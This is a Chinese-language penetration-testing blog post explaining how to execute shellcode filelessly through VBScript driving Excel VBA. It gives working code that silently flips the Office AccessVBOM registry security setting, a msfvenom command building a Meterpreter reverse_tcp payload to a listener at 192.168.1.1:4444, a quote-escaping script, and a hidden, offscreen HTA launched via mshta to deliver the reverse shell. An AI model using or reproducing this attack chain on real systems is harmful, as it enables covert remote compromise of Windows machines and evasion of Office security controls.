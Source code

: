 ```yaml
---
title: "VBS 无文件执行 ShellCode"
date: 2019-08-12T00:00:00+08:00
draft: false
tags: ['shellcode','vbs']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


既然 VBA 能够调用 Win API, 那 VBS 又何尝不可呢?

<!--more-->

## VBS 调用 VBA

[参考文章](http://demon.tw/programming/vbs-excel-invoke-windows-api.html)

VBS 并不能直接调用 Win API, 但是能够间接的执行 VBA 代码, 主要是通过创建 Excel 对象的方式来插入 VBA, 运行时会多出来一个 Excel.exe 的进程, 缺点是只有安装 Microsoft Office 后才能正常调用, WPS 都不行.

```
Dim WshShell
Dim oExcel
set WshShell = CreateObject("Wscript.Shell")
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\11.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
Set oExcel = CreateObject("excel.application")
Set oBook = oExcel.Workbooks.Add
Set oModule = oBook.VBProject.VBComponents.Add(1)
strCode = "VBA Code"
oModule.CodeModule.AddFromString strCode
oExcel.Run "Auto_Open"
oExcel.DisplayAlerts = False
```

利用这点, 通过 VBA 操纵 Win API 来执行 ShellCode.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f vba -o vba.txt
```

转义字符.

```
with open('text.txt','r') as f:
	text = f.readlines()

newtext = ''

for line in text:
	newline = line.replace('"', '""')
	newline = '"' + newline
	newline = newline.replace('\n', '" & vbCr & _ \n')
	newtext += newline

newtext += '"'

with open('payload.txt', 'w+') as f:
	f.write(newtext)
```

粘贴进 strCode 中, 然后执行脚本.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190812105534.png)

## 无文件落地执行

hta sct 都可以调用 VBS, 这里以 mshta 为例.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Dim WshShell
Dim oExcel
set WshShell = CreateObject("Wscript.Shell")
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\11.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
Set oExcel = CreateObject("excel.application")
Set oBook = oExcel.Workbooks.Add
Set oModule = oBook.VBProject.VBComponents.Add(1)
strCode = THE_POSITION_YOU_SHOULD_PASTE_TO
oModule.CodeModule.AddFromString strCode
oExcel.Run "Auto_Open"
Self.Close
</script>
<body>
</body>
</HEAD> 
</HTML>
```

通过 mshta 执行, 反弹会话的时候会慢十几秒钟.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190812110506.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190812111333.png)

另外还有些兼容性的问题, 在 Windows 10, Office 2019 下需要开启 "信任对 VBA 工程对象模型的访问", 但会话还是会直接退出.